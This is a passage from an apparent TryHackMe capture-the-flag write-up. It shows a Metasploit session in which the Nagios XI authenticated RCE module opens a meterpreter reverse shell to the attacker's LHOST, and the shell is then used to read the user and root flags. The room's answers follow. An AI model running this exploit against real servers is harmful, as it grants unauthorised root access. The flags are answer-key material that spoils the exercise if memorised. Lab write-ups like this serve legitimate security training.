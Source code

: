 ```


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 10.10.135.242
RHOSTS => 10.10.135.242
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > run
```

```
meterpreter > shell
Process 13658 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
whoami
root
cd /home
ls
galand
cd galand
ls
nagiosxi
user.txt
cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
cd /root
ls
root.txt
scripts
cat root.txt
THM{c89b2e39c83067503a6508b21ed6e962}
```

1. What hidden file did you find?

`/PI3T.PNg`

3. Who is the creator of the file?

`Piet Mondrian`
